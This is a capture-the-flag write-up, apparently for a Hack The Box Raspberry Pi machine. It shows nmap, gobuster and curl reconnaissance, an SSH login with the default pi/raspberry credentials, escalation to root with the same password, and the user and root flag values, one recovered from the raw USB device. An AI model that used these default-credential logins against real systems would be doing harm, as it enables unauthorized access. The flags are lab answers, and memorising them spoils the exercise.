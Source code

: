 
![image](https://user-images.githubusercontent.com/105310322/187500795-e2801f1b-8201-400d-9017-01895b8492b9.png)

### Tools: nmap, gobuster, ssh

### Vulnerabilities: Pi-Hole, Default credentials

Nmap shows us there is a webpage open.

The page is blank but a connection is established.

```console
└──╼ [★]$ nmap -sC -A -sV 10.129.50.166
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 16:29 BST
Nmap scan report for 10.129.50.166
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

Running gobuster shows an admin and versions page we can check out.

```console
└──╼ [★]$ gobuster dir -u 10.129.50.166 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.50.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/30 16:33:18 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.129.50.166/admin/]
/versions             (Status: 200) [Size: 18]                                 
                                                                               
===============================================================
2022/08/30 16:33:31 Finished
===============================================================
```
Curl also reveals what the blank page is.

```console
└──╼ [★]$ curl -I 10.129.50.166
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Date: Tue, 30 Aug 2022 15:33:42 GMT
Server: lighttpd/1.4.35
```
Here we have the pi-hole admin page. This is our first hint that the page is being ran on a raspberry pi. Lets test some default credentials using the ssh port that nmap found.

![image](https://user-images.githubusercontent.com/105310322/187496695-09c93f38-309e-4c34-b6bf-847691968ea7.png)

A quick google search shows that the default credentials for a raspberry pi are User=pi and Pass=raspberry

Boom we are in pretty quickly!

```console
└──╼ [★]$ ssh pi@10.129.50.166
The authenticity of host '10.129.50.166 (10.129.50.166)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.50.166' (ECDSA) to the list of known hosts.
pi@10.129.50.166's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $ 
```
Full sudo power!? but before I tried that, I did su root with the same default password.

EASY DAY! Already got root and the user flag!

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ su root
Password: 
root@raspberrypi:/home/pi# 
```
```console
root@raspberrypi:/home/pi/Desktop# cat user.txt
ff837707441b257a20e32199d7c8838d
```

It was too good to be true :(
At least we got our next hint :)

The root.txt is hiding in a usb stick so lets see if we can find it.

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~# 
```
lsblk shows us where we can find the usbstick however there is not root.txt found in /media

The drive is located at /dev/sdb

```console
root@raspberrypi:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
root@raspberrypi:/# 
```
After using cat on sdb if pops alot of incomprehensible code but at the bottom we can see a string of characters resembling our root flag!

```console
root@raspberrypi:/dev# cat sdb
�|}*,.������+-���3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/dev# 
```

If using cat to read the sdb file did not work then my next option would have been to extract or mount the usb to try and read the files but luckily the important information was all there.

GG!!
